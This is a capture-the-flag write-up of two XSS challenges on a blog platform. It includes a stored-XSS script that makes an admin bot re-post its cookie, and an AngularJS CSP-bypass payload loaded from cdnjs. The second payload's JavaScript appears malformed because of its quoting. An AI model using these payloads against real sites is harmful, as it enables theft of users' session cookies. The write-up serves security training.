




# Blogpost
by Halogen
> Jaga created an internal social media platform for the company, can you leak anyone's information?
## Solution
First step, look through the code. This is where we observe `bot.js`, a curious little thing that will be the downfall of Jaga's social media platform. This script basically logs in as admin, sets the flag as a cookie and then visit our blog. How wonderful, sounds like a Cross Site Scripting attack (XSS).

Looking around `index.js` we see their Content Source Policy (CSP), dictating the source of their code.
```js
res.setHeader(
  'Content-Security-Policy',
  "default-src 'self'; script-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
);
```
Very intriguing, espectially that `unsafe-inline` portion. This means we can inline scripts `<script>alert("maybe maybe not");</script>` as such and it would run too. But where can we place such malicious scripts...🤔What about as a blog post (the very name of the challenge!)?
Lo and behold, it works!

So from here, we just simply set up a webhook and have our script make a request to it with the cookies as the body. The webhook will pick up the request, and see the flag cookie in the body. Ez right... except not really. The CSP above disables us from sending requests to other websites (`default-src: self`) and only allows requests to self. What do we do?

A hard thonking later, we realised that if we can post blogs, so can the admin! So we can make the admin post the cookies! Going to `templates/post.html` we see that posting a blog is just a post request. So our final blog to post is as below
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"content": "Wtv",
	"title": document.cookie	
})
xhr.send(data);
</script>
```

And boom, the admin makes a post unwillingly with his flag for all to see.

Flag: `STF22{s1mpl3_p0st_xSs_:)}`

# Blogpost 2 (Buffing Blogpost)
by Halogen
> Look out for my blog posts, again!!
## Solution
Relooking through the code, we see the exact code again, line for line. However, there is one small change. Their CSP is set to `'unsafe-eval'` instead of `'unsafe-inline'`. This is problamatic, since our script injection doesn't work anymore 😢.

However, there is still the word 'unsafe' in it, so we found [Google's CSP checker](https://csp-evaluator.withgoogle.com/) and checked their CSP. It seems that including "https://cdnjs.cloudflare.com" has a severe vulnerability where you can include Angular Libraries to bypass CSP. So let's try that!

We follow [Hacktricks CSP Bypass Tutorial](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to perform our XSS. First, we include the angular library in the title, and then inject a funny Angular Constructor into a div. This gives us access to the website's eval function, which will eval anything including our script.

<u>Payload</u>
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"title": "<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>",
	"content": <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
})
xhr.send(data);
</script>
```

And wow, it runs and we get an alert on visiting our blog. Now we just simply replace `alert(1)` with our code from above and the admin gives us the flag yet again in the form of a post.


flag: `STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`
